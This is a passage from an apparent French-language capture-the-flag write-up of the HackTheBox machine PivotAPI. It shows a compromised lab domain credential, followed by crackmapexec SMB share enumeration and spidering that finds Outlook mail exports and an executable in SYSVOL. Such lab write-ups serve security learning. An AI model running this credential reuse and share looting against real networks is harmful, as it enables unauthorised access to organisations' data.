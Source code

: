 Nous avons un premier compte de domaine compromis : `Kaorz:Roper4155`

## SMB Enumeration : Leak Outlook Mails

Maintenant que nous sommes un utilisateur authentifié sur le domaine on peut aller voir les shares auxquelles nous avons accès :

```bash
 cme smb PivotAPI.LicorDeBellota.htb -u 'Kaorz' -p 'Roper4155' --shares
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [+] LicorDeBellota.htb\Kaorz:Roper4155
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [+] Enumerated shares
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         Share           Permissions     Remark
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         -----           -----------     ------
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         ADMIN$                          Admin remota
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         C$                              Recurso predeterminado
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         IPC$            READ            IPC remota
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         NETLOGON        READ            Recurso compartido del servidor de inicio de sesión
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         SYSVOL          READ            Recurso compartido del servidor de inicio de sesión
```

À première vu rien de non commum mais en faisant du spidering sur les shares avec le module [spider_plus](https://wiki.porchetta.industries/smb-protocol/spidering-shares) de [crackmapexec](https://github.com/Porchetta-Industries/CrackMapExec), on découvre un PE `Restart-OracleService.exe` et 2 fichiers avec une extension `MSG` dans le share SYSVOL. Ces fichiers sont des exports de mail Outlook, essayons de les télécharger et de les ouvrir :

```bash
❯ cme smb PivotAPI.LicorDeBellota.htb -u 'Kaorz' -p 'Roper4155' --shares -M spider_plus
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
SMB         PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [+] LicorDeBellota.htb\Kaorz:Roper4155
SPIDER_P... PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [*] Started spidering plus with option:
SPIDER_P... PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [*]        DIR: ['print$']
SPIDER_P... PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [*]        EXT: ['ico', 'lnk']
SPIDER_P... PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [*]       SIZE: 51200
SPIDER_P... PivotAPI.LicorDeBellota.htb 445    PIVOTAPI         [*]     OUTPUT: /tmp/cme_spider_plus
❯ cat /tmp/cme_spider_plus/PivotAPI.LicorDeBellota.htb.json | jq 'map_values(keys)'
{
  "IPC$": [
    "InitShutdown",
    "LSM_API_service",
    "MSSQL$SQLEXPRESS\\sql\\query",
    "PIPE_EVENTROOT\\CIMV2SCM EVENT PROVIDER",
    "ROUTER",
    "RpcProxy\\49673",
    "RpcProxy\\593",
    "SQLLocal\\SQLEXPRESS",
    "W32TIME_ALT",
    "Winsock2\\CatalogChangeListener-1cc-0",
    "Winsock2\\CatalogChangeListener-250-0",
    "Winsock2\\CatalogChangeListener-264-0",
    "Winsock2\\CatalogChangeListener-264-1",
```

[127.0.0.1]: PS C:\> ls -R C:\Developers